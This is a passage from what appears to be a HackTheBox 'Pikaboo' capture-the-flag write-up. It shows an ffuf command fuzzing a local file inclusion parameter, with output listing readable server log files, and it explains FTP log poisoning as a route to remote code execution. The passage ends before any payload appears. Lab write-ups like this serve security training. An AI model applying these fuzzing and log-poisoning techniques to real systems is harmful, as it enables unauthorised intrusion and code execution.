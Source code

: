 You can download this wordlist from here https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt
```bash
kali@kali:~/HackTheBox/Pikaboo$ ffuf -u http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -t 200 -c -fs 15349

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://pikaboo.htb/admin../admin_staging/index.php?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 15349
________________________________________________

/var/log/lastlog        [Status: 200, Size: 307641, Words: 3272, Lines: 368]
/var/log/vsftpd.log     [Status: 200, Size: 19803, Words: 3893, Lines: 414]
/var/log/wtmp           [Status: 200, Size: 166983, Words: 3288, Lines: 559]
:: Progress: [914/914] :: Job [1/1] :: 314 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
Looks like we have access to logs so if we would have tried to find this LFI manually we wouldn't be successful until and unless you are genius and remebered that we have FTP also. But let's be honesh everyone tries /etc/passwd to check.
Anyways now we have the FTP log file so the first thing that came to my mind was FTP-log poisoing so if you don't what that is, it is basically just the injecting PHP code in the FTP log and then later make web server execute that piece of code with the help of LFI.
If you wanna learn more about it you can refer below articles.
https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d

https://secnhack.in/ftp-log-poisoning-through-lfi/
# Exploitation
Looking at the logs we can also find the username but let's go for LFI.
We got the log file 